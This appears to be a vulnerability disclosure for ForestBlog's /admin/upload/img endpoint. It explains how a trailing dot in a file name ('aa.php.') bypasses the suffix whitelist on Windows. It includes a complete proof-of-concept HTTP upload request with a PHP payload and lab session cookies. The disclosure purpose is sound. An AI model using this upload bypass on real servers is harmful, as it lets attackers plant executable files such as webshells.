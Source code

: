 ```yaml
---
typora-root-url: ./img

---
```


**BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name

![image-20231212223542659](image-20231212223542659.png)

In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection

![image-20231212235628456](image-20231212235628456.png)





![image-20231212235938258](/../a/image-20231212235938258.png)



```http
POST /admin/upload/img HTTP/1.1
Host: 172.21.64.185:8090
Content-Length: 217
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysCaHQits7v3jAaOh
Origin: http://172.21.64.185:8090
Referer: http://172.21.64.185:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=BB01F841CB10B9619AC5D0A1D363F4FD
Connection: close

------WebKitFormBoundarysCaHQits7v3jAaOh
Content-Disposition: form-data; name="file"; filename="aa.php."
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundarysCaHQits7v3jAaOh--

```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。

![image-20231213000618896](image-20231213000618896.png)

You can also see that our files were successfully uploaded locally

![image-20231213000645385](image-20231213000645385.png)
